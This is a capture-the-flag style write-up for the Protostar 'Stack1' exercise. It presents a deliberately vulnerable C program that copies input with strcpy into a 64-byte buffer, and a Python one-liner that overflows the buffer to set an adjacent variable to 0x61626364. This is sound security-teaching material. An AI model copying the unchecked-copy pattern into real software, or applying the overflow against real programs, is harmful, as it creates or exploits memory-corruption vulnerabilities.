

# Stack1

## Description
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

## Source Code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
## Solution
On looking the source code we can see that it is checking if the value of modified is changed it 0x61626364. strcpy has similar vulnerabilities as gets function. So we can easily change the value of modified like previous challenge by entering the 64 bytes of any random data then entering the desired value of modified backwards. This is because the machine is working on little endian. To do this we can write the command as 
Python 2
```bash
./stack1 $(python -c "print(('1'*64)+'64636261'.decode('hex'))")
```
Python 3
```bash
./stack1 $(python -c "print(('1'*64)+bytes.fromhex('64636261').decode('utf-8'))")
```
Protostar VM does not support python3.

